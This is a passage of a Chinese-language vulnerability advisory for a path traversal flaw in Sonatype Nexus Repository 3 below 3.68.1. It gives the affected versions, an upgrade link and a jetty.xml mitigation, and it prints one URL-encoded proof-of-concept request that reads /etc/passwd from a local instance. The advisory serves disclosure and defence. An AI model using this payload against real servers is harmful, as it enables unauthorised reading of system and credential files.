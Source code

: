 ```
http://127.0.0.1:8081/%2F%2F%2F%2E%2E%2F%2F%2E%2F%2F%2E%2E%2F%2F%2F%2E%2E%2F%2F%2E%2E%2F%2E%2F%65%74%63%2F%70%61%73%73%77%64
```

![image-20240527143546817](./img/img12.png)

## 影响范围

Sonatype Nexus Repository3 < 3.68.1

## 修复建议

【修复建议】：

目前，官方已发布修复建议，建议受影响的用户尽快升级至安全版本。

下载地址：https://help.sonatype.com/en/download-archives---repository-manager-3.html

【临时缓解措施】：

1.对于Sonateype Nexus Repository的每个实例，编辑（basedir）/etc/jetty/jetty.xml 并从文件中删除这一行：

- -  <Set name="resourceBase"><Property name="karaf.base"/>/public</Set>

2.重新启动Nexus存储库，使更改生效。

此更改可防止利用该漏洞，但也会防止应用程序从（installdir）/public目录加载文件，可能会导致轻微的UI渲染问题，而不会影响核心产品功能。

